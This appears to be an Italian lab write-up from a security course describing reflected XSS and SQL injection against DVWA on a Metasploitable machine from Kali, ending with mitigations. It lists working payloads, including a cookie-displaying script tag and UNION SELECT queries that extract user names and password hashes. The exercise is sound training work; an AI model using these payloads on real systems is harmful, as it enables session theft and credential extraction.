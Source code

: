 # 🛡️ S6/L2: Sfruttamento di XSS e SQL Injection su DVWA

## 🖥️ Ambiente
- **Metasploitable (DVWA):** 192.168.60.2
- **Kali Linux (attaccante):** 192.168.50.2
- **Connessione:** Le macchine comunicano via ping.
- **DVWA Security Level:** Low.

---

## 🛠️ Passaggi

### 1. XSS Riflesso
- **Accesso:** Sezione "XSS Reflected".
- **Test payload:** `<script>alert('XSS')</script>`.
- **Cookie rubato:** `<script>alert(document.cookie)</script>`.
  - Output: `security=low; PHPSESSID=<session_id>`.
- 📂 Screenshot:
  - `XSSHTMLvulnerable.png`
  - `CookieAttuali.png`

### 2. SQL Injection
- **Accesso:** Sezione "SQL Injection".
- **Test vulnerabilità:** `' OR '1'='1`.
- **Scoperta colonne:** `' UNION SELECT null, null--`.
- **Estrazione dati:**
  - Nomi: `' UNION SELECT first_name, last_name FROM users--`.
  - Credenziali: `' UNION SELECT user, password FROM users--`.
  - Output: Utenti con hash delle password.
- 📂 Screenshot:
  - `BypassSQLsemprevera.png`
  - `testPayload.png`
  - `Estrasuserpassword.png`

---

## 📊 Conclusioni
- **XSS Riflesso:** Rubato il cookie di sessione.
- **SQL Injection:** Estratti nomi utenti e password (hash MD5).
- **Mitigazioni:** Sanitizzazione input/output, query parametrizzate, aumento sicurezza DVWA.

📂 File inclusi nella cartella:
- `XSSHTMLvulnerable.png`
- `CookieAttuali.png`
- `BypassSQLsemprevera.png`
- `testPayload.png`
- `Estrasuserpassword.png`
